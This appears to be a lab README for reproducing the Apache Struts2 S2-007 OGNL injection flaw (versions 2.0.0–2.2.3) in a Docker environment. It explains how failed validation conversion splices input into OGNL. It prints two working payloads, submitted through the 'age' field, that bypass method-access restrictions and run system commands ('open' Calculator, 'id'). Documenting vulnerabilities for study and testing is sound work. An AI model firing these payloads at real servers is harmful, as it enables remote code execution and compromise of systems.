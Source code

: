 # S2-007 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Version: 2.0.0 - 2.2.3

Details: http://struts.apache.org/docs/s2-007.html

## Reference

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

When `<ActionName> -validation.xml` configured validation rules. If the type validation conversion fails, the server will splice the user-submitted form value strings, then performing an OGNL expression parsing and returning. 

For example here is a `UserAction`:

```java
(...)
public class UserAction extends ActionSupport {
	private Integer age;
	private String name;
	private String email;

(...)
```

And `UserAction-validation.xml` configuration:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
	"-//OpenSymphony Group//XWork Validator 1.0//EN"
	"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
	<field name="age">
		<field-validator type="int">
			<param name="min">1</param>
			<param name="max">150</param>
		</field-validator>
	</field>
</validators>
```

When the user submits `age` as a `str` instead of an `int`, the server splices `"'" + value + "'"` with the code and then use the OGNL expression parse it. To make a successful expliot, we need find a form field configured with similar validation rules to make a conversion error. And then you can inject any OGNL expression code by the way just like SQL single quotes injected.

Payload which bypass the securely configured:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Setup

```
docker-compose build
docker-compose up -d
```


## Exploit

Here is the EXP that can execute arbitrary code:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

Put EXP into the input box (age), then get the command execution result:

![](1.jpeg)

